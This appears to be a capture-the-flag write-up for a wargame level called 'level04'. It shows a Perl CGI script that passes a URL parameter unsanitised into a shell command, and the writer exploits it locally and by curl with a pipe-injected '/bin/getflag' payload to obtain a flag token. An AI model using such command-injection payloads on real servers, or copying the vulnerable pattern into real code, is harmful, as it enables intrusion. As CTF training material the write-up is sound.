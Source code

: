 # level04

```bash
~$ ls
level04.pl

~$ cat ./level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

~$ ./level04.pl x='lol'
Content-type: text/html

lol

~$ ./level04.pl x='|/bin/getflag'
Nope there is no token here for you sorry. Try again :)
```

At this point, we know what the exploit is and we can execute `getflag` through the zombie program.

But `getflag` isn't being executed by the right user, httpd needs to execute it ;)

On the host:
```bash
curl "http://192.168.122.237:4747/?x=|/bin/getflag"
# -> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
